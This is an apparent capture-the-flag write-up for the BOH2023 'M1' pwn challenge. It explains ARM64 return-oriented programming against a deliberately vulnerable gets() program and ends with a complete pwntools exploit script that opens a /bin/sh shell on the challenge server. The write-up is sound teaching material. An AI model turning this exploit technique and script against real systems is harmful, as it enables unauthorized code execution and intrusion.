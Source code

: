 ```yaml
---
title : "M1 [Pwn]"
categories: BOH2023
---
```


Simple ARM64 Return-Oriented Programming (ROP).

*Disclaimer: I didn't get to finish this during the CTF because skill issues :(*

[m1.tar]({{ site.url }}/files/boh2023/m1.tar){: .btn .btn--info}

# Going through the program

The source code is so short I can just put everything here. (Took away `setup` to save space. Not important)

```c
#include <stdio.h>
#include <stdlib.h>

char name[0x10];

void safe(void) {
    system("echo -n 'What is your name? '");
    gets(name);
}

void vuln(void) {
    char buf[0x10];
    system("echo -n 'Are you running M1? '");
    gets(buf);
}

int main(void) {
    system("echo -n 'Choose wisely\n1. safe\n2. vuln\n> ' ");
    unsigned int choice;
    scanf("%d%*c", &choice);
    switch (choice) {
    case 1:
        safe();
        break;
    case 2:
        vuln();
        break;
    default:
        break;
    }
    return 0;
}
```

So... the buffer overflow here is just screaming at your face.

{% include image.html url="/assets/images/boh2023/m1_checksec.png" description="Sanity check :D" %}

It's a very basic ROP question with no PIE, a place for you to put your own "/bin/sh" string, and `system` called and linked for you to return to. But I got punched in the face because it's ARM64. (first time doing ARM)

# A very brief and hand-wavey explanation to ARM ROP

The key difference between x86 and ARM is that:

1. x86 uses the stack to store the return address and base pointer, while ARM uses `lr` (link register, or x30) and `fp` (frame pointer, or x29) registers.
2. x86 (64 bit) uses RDI, RSI, RDX, RCX, R8, and R9 (+ the stack) for parameters, while ARM uses x0 to x7 (v0 to v7 for floating point parameters).

You might wonder for the 1st point, what happens if there is more than 1 level of function calling (e.g. `A() -> B() -> C()`), then the return address of the previous function call is replaced and lost. Props to you if you thought of this because it means you're actively thinking :D  

The use of registers is to minimize stack usage (slow) unless the called function (`B()`) performs an inner function call (`C()`) too. In those cases, this instruction

```nasm
    stp   x29,x30,[sp, #-0x10]!
```

will store the contents of these two registers onto the stack. ARM loads and stores pairs of register with one instruction. 16 bytes at a time. Very cool.

So, the consequences of this change is that our ROP chain isn't triggered upon the first return, since it returns based on the register content. But after returning, it will recover the "previous address" from the stack, and the next return will trigger the ROP chain. (If we buffer overflow and input ROP chain in `C()`, then it is triggered when `B()` returns to `A()`)

There needs to be one more care to our ROP chain, which is to consider the local variables in the first function we return to (`B()`), as the stack frame will be cleared and the stack will shrink before obtaining the next "saved return address".

Make sure to round **up** the padding here to be 16-byte aligned because ARM will allocate the stack frame like this.

# Solution

So the solution is to call `vuln` and buffer overflow. After we return from `main`, we should jump to `safe`, where we write the string "/bin/sh" into `name`, then return to `system` with `name` as the parameter.

But the question is: How do we pass "/bin/sh" into `system`?

We know that we need the pointer to the string `name` to be in register x0. But when we use `ROPgadget` or `ropper`, we find no useful gadgets to use. However, notice that after we write our string, the register x0 is still pointing at `name` due to `gets` using it, and is not changed until we return from `safe` and after going into `system`.

{% include image.html url="/assets/images/boh2023/m1_safe.png" description="" %}

This means that we can just go from `safe` to `system` without populating the parameter.

One last thing:

The addresses of `safe` and `system` are fixed since there's no PIE.

```
objdump -d m1 | grep safe
  40071c: b0000093     	adrp	x19, 0x411000 <safe+0x1c>
0000000000400744 <safe>:
  40074c: 90000000     	adrp	x0, 0x400000 <safe+0x8>
  400844: 97ffffc0     	bl	0x400744 <safe>


objdump -d m1 | grep system
  4005b4: 90000090     	adrp	x16, 0x410000 <system@plt+0x4>
00000000004005f0 <system@plt>:
  400754: 97ffffa7     	bl	0x4005f0 <system@plt>
  400780: 97ffff9c     	bl	0x4005f0 <system@plt>
  400814: 97ffff77     	bl	0x4005f0 <system@plt>
```

# Final Script
```python
from pwn import *

DEBUG = True

safe = 0x400744
system = 0x4005f0

conn = remote("127.0.0.1", 1234) if DEBUG else remote("54.158.139.58", 1234)

conn.sendlineafter(b"> ", b"2")

payload = b"A" * 0x10
payload += b"B" * 8 + p64(safe+4) # put /bin/sh in `name`
payload += b"C" * 0x10            # stack frame of `main`
payload += b"B" * 8 + p64(system) # call `system` with reg x0 pointing at /bin/sh

conn.sendlineafter(b"? ", payload)

conn.sendlineafter(b"? ", b"/bin/sh\x00")

conn.interactive()
```
